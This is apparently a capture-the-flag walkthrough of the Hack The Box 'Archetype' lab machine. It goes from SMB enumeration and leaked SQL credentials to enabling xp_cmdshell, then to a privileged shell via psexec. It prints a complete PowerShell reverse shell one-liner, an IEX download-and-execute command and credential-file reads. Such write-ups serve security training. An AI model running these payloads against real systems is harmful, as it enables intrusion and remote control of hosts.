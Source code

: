 Hack The Box :: Starting Point :: Archetype :: Windows

# Enumeration

	ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
	nmap -sC -sV -p$ports 10.10.10.27

[nmap.webp](../_resources/58647eb67f0d102d823447d331dc0ea5.webp)

Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.

It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use `smbclient` to list available shares.

[smbclient1.webp](../_resources/65218ef5b31e48e38591b2f1c4e6e0d8.webp)

It seems there is a share called `backups`. Let's attempt to access it and see what's inside.

[smbclient2.webp](../_resources/216d7d461de5267df212eda09d6b6e33.webp)
There is a dtsConfig file, which is a config file used with SSIS.

	<DTSConfiguration>
	    <DTSConfigurationHeading>
	        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	    </DTSConfigurationHeading>
	    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
	        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	    </Configuration>
	</DTSConfiguration>

# Foothold

We see that it contains a SQL connection string, containing credentials for the local Windows user `ARCHETYPE\sql_svc`.

Let's try connecting to the SQL Server using [Impacket's](https://github.com/SecureAuthCorp/impacket) mssqlclient.py.

[sql.webp](../_resources/605471d325615d2acf62a4679d66d19f.webp)

We can use the `IS_SRVROLEMEMBER` function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable `xp_cmdshell` and gain RCE on the host. Let's attempt this, by inputting the commands below.

	EXEC sp_configure 'Show Advanced Options', 1;
	reconfigure;
	sp_configure;
	EXEC sp_configure 'xp_cmdshell', 1
	reconfigure;
	xp_cmdshell "whoami"

The `whoami` command output reveals that the SQL Server is also running in the context of the user `ARCHETYPE\sql_svc`. However, this account doesn't seem to have administrative privileges on the host.

Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as `shell.ps1`.

`$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Next, stand up a mini webserver in order to host the file. We can use Python.
`python3 -m http.server 80`

After standing up a netcat listener on port 443, we can use `ufw` to allow the call backs on port 80 and 443 to our machine.

	nc -lvnp 443
	ufw allow from 10.10.10.27 proto tcp to any port 80,443

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

`xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"`

A shell is received as `sql_svc`, and we can get the user.txt on their desktop.

# Privilege Escalation

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](../_resources/c343861387ab511b1cf4043842dca6bb.png)

This reveals that the `backups` drive has been mapped using the local administrator credentials. We can use Impacket's `psexec.py` to gain a privileged shell.

[psexec.webp](../_resources/a19ea8a8d1f123c9d937bbc04603476c.webp)

This is successful, and we can now access the flag on the administrator desktop.